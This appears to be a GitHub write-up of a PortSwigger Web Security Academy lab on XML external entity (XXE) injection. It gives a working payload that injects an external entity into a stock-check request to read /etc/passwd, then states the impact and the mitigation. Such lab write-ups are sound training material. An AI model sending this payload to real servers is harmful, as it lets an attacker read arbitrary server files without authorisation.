


# Lab 12: Exploiting XXE using external entities to retrieve files

**Status:** Solved ✅
**Platform:** PortSwigger Web Security Academy
**Topic:** XXE Injection - APPRENTICE

### Description
Lab has "Check stock" feature that parses XML input. Goal is to inject XML external entity to retrieve `/etc/passwd`.

### Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>

**Proof**
1. File Retrieval Proof:



2. Lab Solved Proof:



**Impact**
Attacker can read arbitrary files on the server.

**Mitigation**
Disable external entities and DTD processing in XML parser.

---
Tools: Burp Suite Community
Platform: PortSwigger Web Security Academy
